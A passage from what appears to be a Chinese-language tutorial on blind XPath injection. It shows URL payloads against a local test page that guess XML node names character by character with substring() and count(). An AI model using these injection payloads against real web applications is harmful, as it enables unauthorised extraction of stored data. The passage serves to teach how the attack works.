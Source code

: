 [![](assets/1698897471-7cc7a52771325a55c740779b3adf82b3.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20191202151309-31f7c740-14d3-1.jpg)  
有返回结果证明存在一个根节点。  
利用 substring 分割根节点的每个字符，猜解第一级节点：

```plain
http://127.0.0.1/xml/2.php?name=' or substring(name(/*[position() = 1]),1,1)='r' or '1'='2
http://127.0.0.1/xml/2.php?name=' or substring(name(/*[position() = 1]),2,1)='o' or '1'='2
```

...  
最终结果：root  
*2.盲注 root 的下一级节点*  
判断 root 的下一级节点数：

```plain
http://127.0.0.1/xml/2.php?name=' or count(/root/*) = 1 or '1' = '2
```

有返回结果证明存在一个 root 的下一级节点。  
[![](assets/1698897471-24a787444346a201208c84132afed987.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20191202151335-418afc54-14d3-1.jpg)  
猜解 root 的下一级节点：

```plain
http://127.0.0.1/xml/2.php?name=' or substring(name(/root/*[position() = 1]),1,1)='u' or '1'='2
http://127.0.0.1/xml/2.php?name=' or substring(name(/root/*[position() = 1]),2,1)='s' or '1'='2
```
